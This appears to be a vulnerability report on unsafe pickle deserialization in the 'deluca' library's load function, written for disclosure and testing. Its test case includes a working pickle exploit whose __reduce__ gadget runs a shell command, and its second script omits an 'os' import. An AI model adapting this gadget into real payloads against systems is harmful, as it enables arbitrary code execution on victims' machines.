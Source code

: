 ### Vulnerability 1: Unsafe Deserialization via Pickle in `deluca.core.load`

- Description:
    1. The `deluca.core.load` function in `/code/deluca/core.py` uses `pickle.load` to deserialize Python objects from files.
    2. An attacker can craft a malicious pickled file.
    3. When a user or application using `deluca` calls `deluca.core.load` on this malicious file, `pickle.load` will execute arbitrary code embedded in the file during deserialization.
    4. This can lead to arbitrary code execution on the machine running the `deluca` application.

- Impact:
    - Critical. Arbitrary code execution. An attacker can completely compromise the system running the `deluca` library. They could steal sensitive data, install malware, or pivot to other systems on the network.

- Vulnerability Rank:
    - Critical

- Currently Implemented Mitigations:
    - None. The code directly uses `pickle.load` without any input validation or security considerations.

- Missing Mitigations:
    - **Avoid using `pickle` for deserialization of untrusted data.**  Use safer serialization formats like JSON, MessagePack, or Protocol Buffers if possible, and ensure no code execution is involved in deserialization.
    - **Input validation and sanitization.** If `pickle` must be used (which is strongly discouraged for untrusted inputs), implement rigorous input validation to check the source and integrity of the pickled data. However, even with validation, `pickle` remains inherently risky.
    - **Principle of least privilege.** Ensure that the application using `deluca` and loading potentially pickled files runs with the minimum necessary privileges to limit the impact of successful exploitation.

- Preconditions:
    - An attacker needs to be able to supply a malicious file to be loaded by a `deluca` application using `deluca.core.load`. This could be achieved through various means, such as:
        - Social engineering to trick a user into loading the file.
        - Exploiting another vulnerability in the application that allows file uploads or file path manipulation.
        - If the application processes configuration files or policy data from external sources (e.g., downloaded from the internet or read from a network share), and if these files are loaded using `deluca.core.load`, an attacker could compromise these sources.

- Source Code Analysis:
    1. **File:** `/code/deluca/core.py`
    2. **Function:** `load(path)`
    3. **Code Snippet:**
    ```python
    import pickle
    # ...
    def load(path):
      return pickle.load(open(path, "rb"))
    ```
    4. **Vulnerability Point:** The `pickle.load(open(path, "rb"))` line directly deserializes data from the file specified by `path` using the `pickle` module.
    5. **Attack Vector:** An attacker provides a crafted file at `path`. When `load(path)` is called, `pickle.load` executes malicious code within the file.
    6. **Visualization:**

    ```
    [Attacker] --> Malicious Pickle File --> [System] --> deluca.core.load() --> Arbitrary Code Execution
    ```

- Security Test Case:
    1. **Create a malicious pickle file:**
    ```python
    import pickle
    import os

    class MaliciousClass:
        def __reduce__(self):
            return (os.system, ('touch /tmp/pwned',))

    malicious_obj = MaliciousClass()
    payload = pickle.dumps(malicious_obj)
    with open('malicious.pkl', 'wb') as f:
        f.write(payload)
    ```
    This script creates a file named `malicious.pkl` that, when loaded with `pickle.load`, will execute the command `touch /tmp/pwned`.

    2. **Create a test script to load the malicious file using `deluca.core.load`:**
    ```python
    from deluca.core import load

    file_path = 'malicious.pkl'  # Path to the malicious pickle file
    try:
        loaded_obj = load(file_path)
        print("File loaded (this line might not be reached if exploit is successful before)")
    except Exception as e:
        print(f"Error during loading: {e}")

    if os.path.exists('/tmp/pwned'):
        print("/tmp/pwned file exists - Vulnerability confirmed!")
    else:
        print("/tmp/pwned file does NOT exist - Vulnerability NOT confirmed!")
    ```

    3. **Run the test script.**
    4. **Expected Result:** If the vulnerability exists, the script will create a file named `/tmp/pwned` (or equivalent for Windows if adapted `os.system` command) on the system, and the output will indicate "`/tmp/pwned` file exists - Vulnerability confirmed!". If the vulnerability is mitigated or doesn't exist, the file will not be created, and the output will indicate "`/tmp/pwned` file does NOT exist - Vulnerability NOT confirmed!".

    5. **Cleanup (after testing):** Delete the `malicious.pkl` file and `/tmp/pwned` (if created).